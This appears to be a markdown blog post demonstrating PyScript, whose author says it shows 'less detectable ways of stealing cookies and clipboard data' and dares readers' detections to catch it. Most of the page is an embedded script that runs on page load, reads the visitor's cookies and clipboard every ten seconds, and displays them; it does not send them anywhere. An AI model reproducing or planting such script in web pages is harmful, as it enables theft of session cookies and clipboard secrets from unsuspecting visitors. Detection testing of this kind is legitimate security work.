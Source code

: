 ```yaml
---
publish: true
title: pyscript-test
---
```

# What is this?
Well, I wanted to embed something else, but instead, how about I just show you what pyscript can do and see if your detections catch it! :D
## what?
So pyscript is really pretty neat, but it seems like it's just pythonic commands for javascript and not really a python runtime, so that brings limitations. Even so, pretty fun because it's super easy to make less detectable ways of stealing cookies and clipboard data.

<div id="c"></div>
<script type="module" src="https://pyscript.net/releases/2025.2.1/core.js"></script>
<script type="py" config='{"name": "completely not suspicious", "packages": ["asyncio"]}'>
import asyncio, js, pyscript, base64, urllib
from pyodide.ffi import create_proxy
import warnings
warnings.filterwarnings("ignore")

from js import XMLHttpRequest
from io import StringIO
from pyscript import document

async def get_clipboard_data():
        try:
            all_cookies = document.cookie
            text_data = await js.navigator.clipboard.readText()
	        pyscript.display("Cookies: "+all_cookies)
	        pyscript.display("ClipBoard: "+ text_data)
        except:
            pass

pyscript.document.querySelector("#c").focus()
get_clipboard_data_proxy = create_proxy(get_clipboard_data)
pyscript.display("Data Found by clicking this page:")
async def main():
    while True:
        try:
            asyncio.ensure_future(get_clipboard_data_proxy())
            await asyncio.sleep(10)
        except:
            pass

main()
</script>
